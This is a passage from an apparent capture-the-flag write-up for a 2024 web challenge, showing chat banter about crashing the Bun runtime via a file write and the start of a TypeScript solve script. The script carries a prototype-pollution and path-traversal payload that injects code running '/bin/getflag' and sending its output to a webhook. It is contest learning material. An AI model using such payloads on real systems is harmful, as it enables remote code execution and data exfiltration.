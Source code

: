 Alas, we need to crash Bun using only an arbitrary file write. And it turns out this is a _lot_ harder than it should be...

> does invalid file write not crash
>
> ~ Aplet123

> nope
>
> ~ Arc'blroth

> wow bun.write makes intermediate dirs implicitly
>
> that's wild
>
> does bun just like
>
> not error on uncaught promises
>
> ~ Aplet123

> nope
>
> ~ Arc'blroth

```
$ bun -e 'const f = Bun.file("/etc/passwd/x"); Bun.write(f, "chicken"); await Bun.sleep(1000); console.log("a")'
a
$ echo $?
0
```

> i hate this runtime
>
> ~ Arc'blroth

> :D
> 
> bun is so user friendly they even don't error for you!
>
> <https://github.com/oven-sh/bun/discussions/1006>
>
> ~ Aplet123

A few iterations of head-banging later, we arrived at 

```
$ bun -e 'Bun.write("/proc/self/map_files/0-1000", "chicken"); await Bun.sleep(1000); console.log("a")' || echo failed
```

which _does_ error, print a message, and exit with a nonzero status!

So finally, we can whip up a YAML-TS polyglot, crash Bun (it deserves it), and solve:

```ts
// solve.ts

const remote = "https://web-prisoner-processor-06d3a48464e3f51f.2024.ductf.dev"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}?"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()));await new Promise(()=>{})/*`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
    "end": "*///"
```